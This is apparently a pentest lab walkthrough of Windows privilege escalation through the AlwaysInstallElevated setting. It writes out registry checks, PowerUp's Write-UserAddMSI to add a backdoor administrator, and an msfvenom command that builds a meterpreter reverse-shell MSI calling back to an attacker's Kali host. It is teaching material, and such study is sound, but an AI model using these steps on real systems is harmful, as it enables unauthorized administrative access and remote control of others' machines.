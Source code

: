 # 💽 AlwaysInstallElevated

AlwaysInstallElevated is a functionality within Windows that allows all users, including non-administrative ones, to automatically run any MSI (Microsoft Installer) file with elevated privileges. This capability can be exploited in the context of Windows privilege escalation. When an attacker leverages the AlwaysInstallElevated setting, they can manipulate MSI packages to execute arbitrary code with elevated permissions, potentially leading to unauthorized access and control over the system.

To escalate privileges using AlwaysInstallElevated, attackers can create and deploy malicious MSI files, taking advantage of the automatic elevation granted by this setting. By doing so, they can execute code in the context of higher-privileged accounts, achieving a form of privilege escalation.

<figure><img src="../../../../.gitbook/assets/image (407).png" alt=""><figcaption></figcaption></figure>

first we need to check if AlwaysInstallElevated is =1 :

```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```

<figure><img src="../../../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

now in the cms we do:

```
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```

<figure><img src="../../../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

1. `reg query HKLM\Software\Policies\Microsoft\Windows\Installer` queries the local machine's registry for Windows Installer policies at the system level \[[1](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)].
2. `reg query HKCU\Software\Policies\Microsoft\Windows\Installer` queries the current user's registry for Windows Installer policies specific to that user \[[1](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)].

These commands target different registry hives. The former looks at the machine-wide settings, affecting all users, while the latter focuses on settings applicable only to the currently logged-in user.

[Microsoft - reg query](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)

Let's chech who is in the administrators localgroup:

```
net localgroup administrators
```

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

The `net localgroup administrators` command is used to display a list of users who are members of the local "Administrators" group on a Windows computer. When you run this command in the command prompt, it provides information about the users belonging to the administrators group, offering insights into the local administrative privileges on the system

* [Wikiversity - Net (command)/Localgroup](https://en.wikiversity.org/wiki/Net\_\(command\)/Localgroup)
* [Microsoft - Net localgroup](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc725622\(v=ws.11\))

In the autorun section we launched the PowerUp tool:

<figure><img src="../../../../.gitbook/assets/image (153).png" alt=""><figcaption><p>we are going to use it now </p></figcaption></figure>

We simply look for the AlwaysInstallElevated part in the script output

<figure><img src="../../../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

so it pretty much tells us that the abuse function for AlwaysInstallElevated is `Write-UserAddMSI`

1. **Function Purpose:** "Write-UserAddMSI" is designed to exploit the "AlwaysInstallElevated" registry setting in Windows. This setting allows non-administrative users to install Microsoft Installer Packages (MSI) with elevated privileges.
2. **Malicious MSI Creation:** The function likely facilitates the creation of a malicious MSI package that, when executed, performs unauthorized actions or grants elevated privileges to a user.
3. **Privilege Escalation:** By abusing "AlwaysInstallElevated" with "Write-UserAddMSI," an attacker can escalate their privileges, potentially gaining administrative access on the system.
4. **Backdoor Installation:** It suggests the ability to install a backdoor or perform actions that may compromise the security of the system.
5. [Juggernaut Security - AlwaysInstallElevated – Windows Privilege Escalation](https://juggernaut-sec.com/alwaysinstallelevated/)
6. [Hacking Articles - Windows Privilege Escalation (AlwaysInstallElevated)](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/)
7. [HackTricks - Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
8. [Offsec Journey - Local Priv Esc - Windows](https://notes.offsec-journey.com/privilege-escalation/local-privilege-escalation)

So now let's abuse this, let's do a&#x20;

```
Write-UserAddMSI
```

<figure><img src="../../../../.gitbook/assets/image (155).png" alt=""><figcaption></figcaption></figure>

In essence, the command is instructing PowerSploit to create a new MSI file named "UserAdd.msi" in the local directory. This MSI file contains configurations or instructions for adding a user, that will be abused for privesc

if we go and look in the local file, we can see some change:

<figure><img src="../../../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

we double-click on it and see some interesting stuff:

<figure><img src="../../../../.gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

it asks us to add a user in the administrators group, check mate

and if we run the command again:

<figure><img src="../../../../.gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

our backdoor user has been added to the group

Let's do this another way,

on your local kali open a msfconsole reverse shell:

<figure><img src="../../../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

now in another terminal you run this:

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi
```

<figure><img src="../../../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

* **msfvenom:** This is the command-line interface for Metasploit's payload generator.
* **-p windows/meterpreter/reverse\_tcp:** Specifies the payload to be generated. In this case, it's a reverse TCP Meterpreter shell for a Windows target.
* **lhost=\[Kali VM IP Address]:** Sets the listening host IP address. Replace `[Kali VM IP Address]` with the actual IP address of your Kali Linux machine. This is the IP where the target machine will connect back.
* **-f msi:** Specifies the format of the output file. Here, it's set to MSI (Microsoft Installer).
* **-o setup.msi:** Specifies the output file name, which is set to `setup.msi`. This is the name of the generated MSI file.

Now we need to upload this payload on our target so let's go and make a local http server:

<figure><img src="../../../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

didn't make a very secure place for our server, but hey, better work next time,

<figure><img src="../../../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

and now on our listener:

<figure><img src="../../../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

just like that, another way of obtaining a shell :smile:
